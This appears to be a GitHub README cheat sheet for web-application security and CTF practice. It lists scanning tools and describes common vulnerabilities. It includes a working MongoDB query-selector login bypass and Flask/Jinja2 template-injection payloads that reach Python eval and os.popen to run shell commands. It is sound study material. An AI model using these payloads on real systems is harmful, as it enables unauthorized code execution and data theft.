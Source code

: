 ## Resources
- PayloadAllTheThings [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

##  Web directory bruteforcers
- dirb (run dirb on terminal)
- dirbuster (requires GUI)
- gobuster (similar tool)
- dirsearch(faster alternative to dirb) [GitHub](https://github.com/maurosoria/dirsearch)

##  Web crawlers
- dirhunt [GitHub](https://github.com/Nekmo/dirhunt)

##  Packet utils
- Burp Suite (requires GUI) [Website](https://portswigger.net/burp)
- wget

## XXE (XML external entity) injection
- Happens when an application parses uses data from XML files which can be modified to be malicious
[Website](https://portswigger.net/web-security/xxe)

## LFI (Local File Inclusion)
- Commonly found in PHP web application (maybe through Wordpress plugins etc)
- Vulnerable websites can allow you to access local files through directory traversal
- Look out for ways where you can supply a file path and it is served as a download/printed to the page

## XSS
- Stored XSS
> Website uses external resources that contains malicious code</br>
> If an SVG with XSS payload is in an iframe or embed of a website, it can be executed
- Reflected XSS
> When queries to a website is handled and returned in an unsafe way
- DOM based XSS
> Client side attack, browser executes payload that didn't came from the server

## SQL Injection
### Testing
- Try using one (single or double) quote for the input and see if there is any errors
- If an error is returned, the website might be vulnerable
### Types of attack
- Union based attack
> Application displays the output of the query, allowing you to steal information from the database
- Error based attack
> Application returns an error with details about the query, helping you to craft queries to bypass checks
- Resources
> Sqlmap [GitHub](https://github.com/sqlmapproject/)</br>
> Learn and try using SQL [Website](http://mystery.knightlab.com/)

## Query Selector Injection
### Example
- In MongoDB + NodeJS web apps
> Query for login details
```js
db.users.find({username: username, password: password});
```
> Malicious input
```
{
    "username": {"$gt": ""},
    "password": {"$gt": ""}
}
```
> {"$gt": ""} will result in true, $gt is a query selector which compares with ""
### Mitigation
- Make sure input gets sanitised as string
- Remove $ and . to prevent query selectors

## Server-side Template Injection (SSTI)
### Testing:  

```
{{ 7*'7' }}
    Twig: 49
    Jinja2: 7777777
{{ 7 }}
    Golang: 7
```

### How to perform the SSTI:
For Flask servers:

Get config:
`{{config}}`

Python RCE:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<Python code here>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Execute shell statements:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("<SHELL STATEMENT HERE>").read()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Get all classes:
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Get local/global variables (from Python RCE)
```python
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```

For golang:
```
{{.<variable or function here>}}
```
Note that the dot is important.

- Reference/more info [GitHub](https://github.com/w181496/Web-CTF-Cheatsheet#ssti) / [Translated Version](https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti)
- Payload for more languages [Website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- Payload all the things SSTI [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

## CSRF
### Testing
- Steps to test for CSRF [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
## Broken Authentication
### Testing
- Steps to test for Broken Authentication [Guide](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
## Apache
- `.htaccess` files are configuration files for its directory
## Practice
- bWAPP, a free and open source deliberately insecure web application [Website](http://www.itsecgames.com/)

## Common python applications pitfalls
- Article explainling various common python application pitfalls which can be exploited [Website](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

## Common files
- `robots.txt` contains information for crawlers to know which files and directories it has permission to check, this could potentially show hidden files
- `sitemap.xml` contains infomation about the pages a site has to help search engines crawl and index through the website faster

## AWS configuration flaw
- Pacu, a web exploitation framework for exploiting configuration flaws in AWS servers [GitHub](https://github.com/RhinoSecurityLabs/pacu)
